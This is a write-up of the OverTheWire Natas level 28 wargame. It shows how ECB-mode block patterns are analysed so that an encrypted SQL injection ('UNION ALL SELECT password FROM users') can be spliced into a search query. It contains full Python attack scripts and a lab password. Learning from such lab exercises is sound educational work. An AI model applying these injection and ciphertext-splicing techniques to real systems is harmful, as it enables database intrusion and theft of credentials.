# 🕸️Natas Level 28 → Level 29

```
http://natas28.natas.labs.overthewire.org
```
Username: natas28  
Password: (natas28_password)



We’ll start by testing it with the term **“student”**.



It returned nothing because the word doesn’t exist in the database.



Our next test will use the term **“computer”**.



It outputs jokes containing the word “computer”.



Next, we try it with the letter **“c”**.


Similar to the previous test, it returns jokes that contain the letter “c.”


We noticed the query was in Base64, so we tried decoding it, but had no luck.



Since the query contained repeating segments, we experimented by trimming some parts, which led to an error message.



### Doing some online research on PKCS#7
https://node-security.com/posts/cryptography-pkcs-7-padding/  
https://ctf-wiki.mahaloz.re/crypto/blockcipher/mode/ecb/  
https://www.slideserve.com/lynne/block-cipher-modes  

After researching PKCS#7, we discovered that the data is encrypted using ECB block cipher mode, which cannot be directly decrypted without the key. However, ECB has a known weakness: it preserves plaintext patterns, and we can exploit that.


The exploitation process involves:  
• Identifying the cipher’s block size  
• Submit chosen input for encryption to analyze block behavior  
• Use the results to craft and inject our payload  

### Step 1: Identifying the cipher’s block size

We used a Python script to assist with the discovery process.
```
import requests
import re
import urllib
import base64


# Credentials for natas28
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Target URL
url = "http://natas28.natas.labs.overthewire.org"

session = requests.Session()

for i in range(1,100):
    response = session.post(
        url,
        data={"query":"C"*i},
        auth=(username, password)
    )

    # query data after (http://natas28.natas.labs.overthewire.org/search.php/?query=)
    query_value = base64.b64decode(requests.utils.unquote(response.url[60:]))

    print("Number_of_C", i, "response_length", len(query_value))

```
We noticed that the response length is consistent, always increasing in 16‑byte increments. Below 80 bytes, the length cannot be trusted due to unknown code and padding.



Additional checks show that the response size continues to align with 16‑byte blocks.



We can now safely conclude that the block size is 16 bytes.

### Step 2: Submit chosen input for encryption to analyze block behavior

We used a Python script to assist with the analysis task.
```
import requests
import re
import urllib
import base64


# Credentials for natas28
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Target URL
url = "http://natas28.natas.labs.overthewire.org"

session = requests.Session()

for i in range(1,100):

    response = session.post(
        url,
        data={"query":"C"*i},
        auth=(username, password)
    )

    # query data after (http://natas28.natas.labs.overthewire.org/search.php/?query=) in base64
    query_value = base64.b64decode(requests.utils.unquote(response.url[60:]))

    print("-"*20)
    print("Number_of_C:", i)
    
    # query data in hex value instead of base64
    blocks = (query_value).hex()

    # Block size: 16 bytes
    # Hex representation: 32 hex digits
    # Reason: Each byte is represented by two hex digits.
    for j in range(len(blocks)//32):
        block = blocks[(32*j):(32*j+32)]
        print(block)

    print("\n")

```
After submitting “C” 42 times, a repeating pattern appeared, which persisted with further entries.



A repeated pattern also appeared at 73 and 74 “C” inputs, and we observed that the pattern was increasing.



Below is the analysis of the pattern.



A deeper examination of the pattern highlighted block locations that could be useful for exploitation.



### Step 3: Use the results to craft and inject our payload  

Database Query Assumptions



Python Script

```
import requests
import re
import urllib
import base64


# Credentials for natas28
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Target URL
url = "http://natas28.natas.labs.overthewire.org"


session = requests.Session()

#######################################################################################
# function just trying to make the code look clean

def print_hex_query(my_response):
    print("Hex query data: \n")
    query_value = base64.b64decode(requests.utils.unquote(my_response.url[60:]))
    blocks = (query_value).hex()
    for j in range(len(blocks)//32):
        block = blocks[(32*j):(32*j+32)]
        print(block)
    print("-"*20)

def print_base64_query(my_response):
    print("Base64 query data: \n")
    query_value = requests.utils.unquote(my_response.url[60:])
    print(query_value)
    print("-"*20)

def get_hex_query(my_response):
    query_value = base64.b64decode(requests.utils.unquote(my_response.url[60:]))
    hex_query = (query_value).hex()
    return hex_query

def convert_hex2base64(hex_value):
    hex_string = hex_value
    binary_data = bytes.fromhex(hex_string)
    b64_string = base64.b64encode(binary_data).decode()
    #base64_string = b64_string.replace('/','%2F').replace('=','%3D').replace('+','%2B')
    encoded = urllib.parse.quote(b64_string, safe="")
    return encoded

######################################################################################
# malicious request
malicious_payload = "C"*41 + "\' UNION ALL SELECT password FROM users; #"

response_1 = session.post(
    url,
    data={"query": malicious_payload},
    auth=(username, password)
)

print("==========Malicious==========")
print_hex_query(response_1)
malicious=get_hex_query(response_1)


########################################################################################
# normal request
normal_input = "C"*42

response_2 = session.post(
    url,
    data={"query": normal_input},
    auth=(username, password)
)

print("==========Normal==========")
print_hex_query(response_2)
normal=get_hex_query(response_2)

########################################################################################
# craft our payload with good part and bad part to bypass restriction

good = normal[:32*5]
bad = malicious[32*5:]
crafted = good + bad

base64_query = convert_hex2base64(crafted)
search_url = "http://natas28.natas.labs.overthewire.org/search.php/?query="

crafted_query = search_url + base64_query
#print(crafted_query)

########################################################################################
# send get request to get our flag  

response_3 = session.get(
    crafted_query,
    auth=(username, password)
)

print(response_3.text)

```

The flag was discovered after executing the script.



### Manual walkthrough for clearer understanding

Here are some block end positions that we can exploit.
```
### positions
9,10
25,26
41,42
57,58
73,74
89,90
```

For convenience, I will use positions 9 and 10 to demonstrate.
```
CCCCCCCCC' UNION ALL SELECT password FROM users; #
```



Copy the query and paste it into CyberChef.




The content from block 4 onward consists of our payload (encoded) combined with some random code.
```
UNION ALL SELECT password FROM users; #xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```



The following step is to submit a normal request of 10 consecutive “C” characters.



The first three blocks contain unknown random code, followed by our 10 “C” characters.
```
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxCCCCCCCCCC
```


After that, we craft our request by combining the valid request with the malicious one to bypass the restrictions.

⚠️**Note:** Base64 encoding is sensitive to whitespace. Ensure the hex string contains no spaces or newline characters for the output to be correct.



Then we copy and paste the Base64‑encoded version of our crafted request into the URL.



The flag is revealed once the page is refreshed.



Perfect! This flag lets you log in to the next stage.


